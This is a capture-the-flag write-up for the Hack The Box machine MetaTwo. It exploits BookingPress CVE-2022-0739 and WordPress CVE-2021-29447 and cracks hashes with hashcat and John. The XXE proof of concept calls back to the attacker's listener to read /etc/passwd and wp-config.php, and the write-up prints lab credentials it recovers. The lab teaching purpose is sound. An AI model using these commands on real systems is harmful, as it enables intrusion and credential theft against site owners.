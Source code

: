 ```yaml
---
title: HTB-MetaTwo
date: 2024-11-06 06:45:18
tags:
- HTB
---
```

# Nmap
`nmap -Pn -sC -sV -O -T3 -p- 10.10.11.186 -oN nmap_scan`
```
PORT   STATE SERVICE VERSION
21/tcp open  ftp
| fingerprint-strings: 
|   GenericLines: 
|     220 ProFTPD Server (Debian) [::ffff:10.10.11.186]
|     Invalid command: try being more creative
|_    Invalid command: try being more creative
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 c4:b4:46:17:d2:10:2d:8f:ec:1d:c9:27:fe:cd:79:ee (RSA)
|   256 2a:ea:2f:cb:23:e8:c5:29:40:9c:ab:86:6d:cd:44:11 (ECDSA)
|_  256 fd:78:c0:b0:e2:20:16:fa:05:0d:eb:d8:3f:12:a4:ab (ED25519)
80/tcp open  http    nginx 1.18.0
|_http-server-header: nginx/1.18.0
|_http-title: Did not follow redirect to http://metapress.htb/
```

# Website
Domain = `metapress.htb`
```
echo "10.10.11.186 metapress.htb" | sudo tee -a /etc/hosts
```
Its wordpress so we can do a basic scan with the tool `wpscan`
```
wpscan --url http://metapress.htb/
```
The scan gave us some good info like `WordPress version 5.6.2` and  `PHP/8.0.24`
Potential CVE if we manage to get a user CVE-2021-29447
https://github.com/0xRar/CVE-2021-29447-PoC

# Event Form
The even form has no SSTI. Also i tried looking into other tickets to maybe get some email adresses.
The request is this and the `appointment_id` the base64 encoded
http://metapress.htb/thank-you/?appointment_id=MQ==
`echo "MQ==" | base64 -d` the output was 1 I will try to brute force it in burp
I run the first 100 ids but nothing expect mine came back with info

Looking into the source code we find that it runs bookingpress a CVE that might works is
[CVE-2022-0739](https://github.com/destr4ct/CVE-2022-0739)

In the poc it says we need the `nonce` we can find that if we look on the event page source code by searching `_wpnonce`.
![Wpnonce](/images/MetaTwo/MT(nonce).png)
After running the poc we get:
![POC](/images/MetaTwo/MT(poc).png)
```
|admin|admin@metapress.htb|$P$BGrGrgf2wToBS79i07Rk9sN4Fzk.TV.|
|manager|manager@metapress.htb|$P$B4aNM28N0E.tMy/JIcnVMZbGcU16Q70|
```

### Cracking the hash
I run `hash-identifier` and i found that the hash is MD5(Wordpress)
![Hash-id](/images/MetaTwo/MT(Hash-id).png)
With a quick search we find that the hashcat mode is 400 (from this website https://hashcat.net/wiki/doku.php?id=example_hashes)
```
hashcat hashes.txt -m 400 /usr/share/wordlists/rockyou.txt
```
Manager hash cracked
```
$P$B4aNM28N0E.tMy/JIcnVMZbGcU16Q70:partylikearockstar
```
`Manager:partylikearockstar
`

### Manager Dashboard
![ManagerDash](/images/MetaTwo/MT(Manager_Dash).png)
As we can see we don't have alot of privilages to change the website but we can upload media. From the initial recon I had found the CVE-2021-29447
https://github.com/0xRar/CVE-2021-29447-PoC

We can run the poc code
```
python3 PoC.py -l 10.10.14.20 -p 8888 -f /etc/passwd
```
and we get a base64 encoded message
![Decode](/images/MetaTwo/MT(CVE-MEDIA).png)
we can decode that by putting it on the `decode.php` and running
```
php decode.php
```
![Decoder](/images/MetaTwo/MT(decoding).png)
Now we will try to get the /wpconfig.php
```
python3 PoC.py -l 10.10.14.20 -p 8888 -f ../wp-config.php
```
![wp-cong](/images/MetaTwo/MT(Wp-config).png)
After decoding it we find:
```
define( 'FS_METHOD', 'ftpext' );
define( 'FTP_USER', 'metapress.htb' );
define( 'FTP_PASS', '9NYS_ii@FyL_p5M2NvJ' );
define( 'FTP_HOST', 'ftp.metapress.htb' );
define( 'FTP_BASE', 'blog/' );
define( 'FTP_SSL', false );
```
the ftp username and password `metapress.htb:9NYS_ii@FyL_p5M2NvJ`
(and some db creds)
```
/** MySQL database username */
define( 'DB_USER', 'blog' );

/** MySQL database password */
define( 'DB_PASSWORD', '635Aq@TdqrCwXFUZ' );
```

# Ftp 

```
ftp 10.10.11.186
```
Using the creds we got `metapress.htb:9NYS_ii@FyL_p5M2NvJ` we can login to ftp. Inside the ftp we find another app that runs named `mailer`.  Inside there there is a file `send_email.php` we can download that file to our system with:
```
get send_email.php
```
In there we find user and pass and another port `587` that we didnt see on nmap
```
$mail->Host = "mail.metapress.htb";
$mail->SMTPAuth = true;                          
$mail->Username = "jnelson@metapress.htb";                 
$mail->Password = "Cb4_JmWM8zUZWMu@Ys";                           
$mail->SMTPSecure = "tls";                           
$mail->Port = 587; 
```

We can try use those creds to login via ssh
```
ssh jnelson@metapress.htb
```
Creds worked and we have a shell as `jnelson`

# Privilege Escalation

Doing `ls -la` we can see a folder that its not common on linux machines a `passpie` folder
that holds some keys
The passpie export command exports the credentials saved in passpie in plain text. `passpie export password.db` but we dont have the passphrase.

We will download our keys to our machine with:
```
scp jnelson@metapress.htb:/home/jnelson/.passpie/.keys ./keys
```
First let us generate the password hash from the private GPG key using gpg2john and save it into a file named keys.hash
```
gpg2john keys > keys.hash
```
We can now try brute-forcing the password hash and see if we can be cracked. We can use "John The Ripper" for this purpose
```
john -wordlist=/usr/share/wordlists/rockyou.txt keys.hash --format=gpg
```
![John](/images/MetaTwo/MT(johncrack).png)
and we get `blink182` as passpi passphrase.

Now we can do
```
passpie export ~/password.db
```
```
cat ~/password.db
```
```
credentials:
- comment: ''
  fullname: root@ssh
  login: root
  modified: 2022-06-26 08:58:15.621572
  name: ssh
  password: !!python/unicode 'p7qfAZt4_A1xo_0x'
- comment: ''
  fullname: jnelson@ssh
  login: jnelson
  modified: 2022-06-26 08:58:15.514422
  name: ssh
  password: !!python/unicode 'Cb4_JmWM8zUZWMu@Ys'
handler: passpie
version: 1.0
```
We got creds for root `root:p7qfAZt4_A1xo_0x` now we can just ssh to root
```
ssh root@metapress.htb
```
